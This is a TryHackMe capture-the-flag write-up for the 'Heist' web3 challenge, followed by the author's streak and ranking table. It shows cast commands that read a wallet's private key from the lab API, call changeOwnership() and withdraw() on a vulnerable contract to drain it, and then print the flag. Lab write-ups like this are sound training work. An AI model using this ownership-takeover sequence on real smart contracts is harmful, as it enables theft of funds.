 <p align="center"><img width="80px" src="https://github.com/user-attachments/assets/0b5c9599-56d3-402e-92e2-f3379451752b"><br>
June 16, 2025<br> Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>,<br>
and I’m excited to join you on this adventure,<br>
part of my <code>406</code>-day-streak in<a href="https://tryhackme.com">TryHackMe</a>.<br>
From the Hackfinity Battle CTF event. Click <a href="https://tryhackme.com/room/hfb1heist"</a> here to access this challenge.<br>
<img width="1200px" src="https://github.com/user-attachments/assets/71f342f2-1273-4702-84de-45f187c4664c1620"></p>


<h2> Task 1 . Flags</h2>

```bash
root@ip-10-10-13-46:~/Heist# RPC_URL=http://10.10.141.163:8545
root@ip-10-10-13-46:~/Heist# API_URL=http://10.10.141.163
root@ip-10-10-13-46:~/Heist# PRIVATE_KEY=$(curl -s ${API_URL}/challenge | jq -r ".player_wallet.private_key")
root@ip-10-10-13-46:~/Heist# CONTRACT_ADDRESS=$(curl -s ${API_URL}/challenge | jq -r ".contract_address")
root@ip-10-10-13-46:~/Heist# PLAYER_ADDRESS=$(curl -s ${API_URL}/challenge | jq -r ".player_wallet.address")
root@ip-10-10-13-46:~/Heist# is_solved=`cast call $CONTRACT_ADDRESS "isSolved()(bool)" --rpc-url ${RPC_URL}`
root@ip-10-10-13-46:~/Heist# echo "Check if is solved: $is_solved"
Check if is solved: false
root@ip-10-10-13-46:~/Heist# ls
root@ip-10-10-13-46:~/Heist# 

```

![image](https://github.com/user-attachments/assets/7be30d23-5385-40f8-835d-4b5fded47813)

```bash
root@ip-10-10-13-46:~/Heist# cast send $CONTRACT_ADDRESS "changeOwnership()" --rpc-url $RPC_URL --private-key $PRIVATE_KEY --legacy
...
root@ip-10-10-13-46:~/Heist# cast send $CONTRACT_ADDRESS "withdraw()" --rpc-url $RPC_URL --private-key $PRIVATE_KEY --legacy

```

![image](https://github.com/user-attachments/assets/a7c9adef-e2ae-4007-8ca3-bb1980914654)

```bash
root@ip-10-10-13-46:~/Heist# cast call $CONTRACT_ADDRESS "isSolved()(bool)" --rpc-url $RPC_URL
```


![image](https://github.com/user-attachments/assets/07697333-17fa-46ee-ac38-b570d3136d7b)


![image](https://github.com/user-attachments/assets/3359abb2-d833-41c1-8691-99c8c203d3f0)

![image](https://github.com/user-attachments/assets/fcf18250-0f62-41de-80b4-b5f8d246539c)

```bash
THM{web3_h31st_d0ne}
```

<br>
<br>

![image](https://github.com/user-attachments/assets/17e625ce-7b19-4e7e-aefa-83c5f49e2f7e)

![image](https://github.com/user-attachments/assets/13450f1c-8fd8-49f0-a8e2-5bc797824331)


<br>
<br>


<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |    Global    |    Brazil    |    Global   |   Brazil   |          | Completed |           |
| June 16 2025      | 406      |     201st    |      5ᵗʰ     |     338ᵗʰ   |     8ᵗʰ    |  108,333 |    783    |     63    |

</div>

![image](https://github.com/user-attachments/assets/e2624c61-4c55-457f-ad39-d0fd687fe032)


![image](https://github.com/user-attachments/assets/47549169-c089-43a5-8f79-dbfe135aa313)

![image](https://github.com/user-attachments/assets/ecccff90-bcfd-447f-bb72-7c4400a18cbf)

![image](https://github.com/user-attachments/assets/552380b7-f600-4e5b-9382-c67e21ed00e7)

![image](https://github.com/user-attachments/assets/59f3067f-fdd0-4ec0-bb6d-1a91b6c59eba)







